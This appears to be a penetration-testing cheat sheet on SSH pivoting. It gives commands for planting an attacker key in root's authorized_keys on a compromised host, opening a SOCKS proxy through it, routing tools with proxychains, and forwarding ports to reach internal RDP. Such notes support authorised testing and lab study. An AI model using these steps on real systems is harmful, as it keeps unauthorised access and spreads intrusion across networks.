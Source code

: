 
#### SSH

##### **SSH Dynamic Port Forwarding (SOCKS Proxy)**  

```bash
### ON YOUR MACHINE (10.10.10.1)
# CREATE A DIRECTORY FOR MANAGING KEYS
mkdir piv_keys && chmod 700 piv_keys
# GENERATE NEW SSH KEY
ssh-keygen -f piv_keys/id_rsa_1
# COPY PUBLIC KEY CONTENT TO CLIPBOARD
cat piv_keys/id_rsa_1 | clip.exe # OR JUST CAT AND COPY
### ON A COMPROMISED MACHINE (10.10.10.2)
# ADD YOUR SSH PUBLIC KEY TO authorized_keys
echo "ssh-rsa AAAA...[REDACTED]..." >> /root/.ssh/authorized_keys
### ON YOUR HOST (10.10.10.1)
# START SSH DYNAMIC PORT FORWARDING
ssh -D 9999 -f -N root@10.10.10.2 -i piv_keys/id_rsa_1

## Setup PROXYCHAINS 

### ON YOUR HOST (10.10.10.1)
# CONFIGURE PROXYCHAINS (/etc/proxychains4.conf)
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 9999

# scan
proxychains rdesktop 10.10.10.3
```

***Local Port Forwarding (L2R)***
```bash
# Forward traffic from your machine to a remote service
#ssh
ssh -L [local_port]:[ip_pc_3]:[port_pc3] [username-pc2]@[ssh_server_pc2] 
ssh -L 9999:10.10.10.3:3389 user@remote_server
```

 **Remote Port Forwarding (R2L)**  (we don't use this in pivoting)
- Expose **local service** to a **remote machine**.  
  `ssh -R <remote-port>:localhost:<local-port> user@<remote-host>`

**Key Differences Between Forwarding Types**  


**Key Differences Between Forwarding Types**  

| **Type**            | **Direction**                 | **Purpose**                       | **Example**                       |
|---------------------|--------------------------------|-----------------------------------|-----------------------------------|
| **Local (L2R)**     | Local → Remote                | Access remote service from local | RDP forwarded to `127.0.0.1:3333` |
| **Remote (R2L)**    | Remote → Local                | Expose local service to remote   | Web server accessible remotely   |
| **Dynamic (SOCKS)** | Local → Multiple destinations | Route traffic dynamically via SSH | ProxyChains over SOCKS5 proxy    |
